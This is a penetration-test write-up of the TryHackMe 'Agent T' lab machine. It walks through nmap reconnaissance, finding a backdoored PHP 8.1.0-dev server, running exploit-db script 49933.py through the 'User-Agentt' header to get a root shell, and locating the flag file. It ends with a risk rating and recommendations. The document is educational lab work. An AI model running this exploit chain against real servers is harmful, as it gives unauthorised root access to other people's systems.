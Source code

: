 ## Penetration Test Report
of "Agent T" machine (https://tryhackme.com/room/agentt)
09.23.2022


Duck9001
mail: 

### Table of contents:
Exective summary
Summary of results
Attack narrative
Conclusion
Risk rating
Recommendations

### Executive summary
With owner consent I conducted a penetration test of Agent T machine (https://tryhackme.com/room/agentt).

Efforts were placed on identification and exploitation of security weaknesses that could allow a remote attacker to gain unauthorised access to organizational data.

Specific goal was to access flag stored somewhere on machine

### Summary of results
Initial scan of Agent T ports revealed vulnerable http service that allowed Remote Code Execution (RCE).

### Attack narrative
#### Service identification
``ping -c 2 10.10.1.109`
```
PING 10.10.1.109 (10.10.1.109) 56(84) bytes of data.
64 bytes from 10.10.1.109: icmp_seq=1 ttl=63 time=125 ms
64 bytes from 10.10.1.109: icmp_seq=2 ttl=63 time=125 ms
```
ttl ~ 64 suggest it's a Linux machine.

`sudo nmap -Pn -sS 10.10.1.109`
```
PORT   STATE SERVICE
80/tcp open  http
```

`sudo nmap -sV -p80 10.10.1.109`
```
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
```
Service: PHP 8.1.0-dev


#### RCE
`/usr/share/exploits/exploit-db/exploitdb/searchsploit PHP 8.1.0`
i.a.
```
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                   | php/webapps/49933.py
```

According to comments of above script early version of PHP 8.1.0-dev was released with a backdoor. This version allows for RCE using "User-Agentt" header.


Exploit provided by [Exploit_db](https://www.exploit-db.com/search) abuse that vulnerability creating a simple pseudo-shell with root privileges.
`sudo python3 /usr/share/exploits/exploit-db/exploitdb/exploits/php/webapps/49933.py`
```
Enter the full host url:
http://10.10.1.109:80

Interactive shell is opened on http://10.10.1.109:80
Can't acces tty; job crontol turned off.
$ whoami
root
```

RCE with root privileges result in a complete compromise of target.

#### Locating assets
Using pseudo-shell:
`find / -name "*flag*" 2> /dev/null`
i.a.
```
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/flag.txt
```

`cat /flag.txt` -> asset that was searched.


### Conclusion
Agnet T suffered vulnerability that would have dramatic effect if malicious party had expoited it.

The specific goals of penetration test was to gain read access to flag, which was met.

It is important to note, that that vulnerability is a threat not only to assets, but also **Identity Management**, **Authentication**, and **Access Control** especially, if webserver is a trusted node on infrastructure network.

### Risk rating
According to CVSS V3:

**`Critical`** (>9) - exploitation is straightforward, results in system-level compromise

### Recommendations
1. Frequent updates of installed software - when supply chain attack (or other vulnerabilities) are discovered maintainers patch them.
2. Port-knocking implementation - if webserver is meant for non-public purposes port-knocking would decrease likelihood of service detection.
3. Regular vulnerability assasments.


